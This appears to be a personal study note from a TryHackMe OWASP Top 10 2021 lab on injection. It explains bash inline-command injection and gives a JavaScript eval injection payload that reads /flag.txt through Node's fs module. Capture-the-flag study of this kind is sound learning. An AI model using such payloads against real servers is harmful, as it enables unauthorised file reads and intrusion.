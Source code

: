 
2024-06-01 15:27

Source: #tryhackme #owasp2021 #web 

Tags: [[owasp]]  [[SQL injection]]

#### Injection attacks were ranked No. 3 on OWASP Top 10 2021

Command injection -  occurs when server-side code (like PHP) in a web application makes a call to a function that interacts with the server's console directly.
- take advantage of a bash feature called "inline commands" to abuse
- Bash allows you to run commands within commands
To execute inline commands, you only need to enclose them in the following format `$(your_command_here)`
### Injecting JS code to get flag.txt 

```js
eval(`(function() { return ${ formula } ;}())`)
```
what should i input in place of formula to get flag.txt? -
```js
require('fs').readFileSync('/flag.txt').toString();
```

### References
[TryHackMe | OWASP Top 10 - 2021](https://tryhackme.com/r/room/owasptop102021)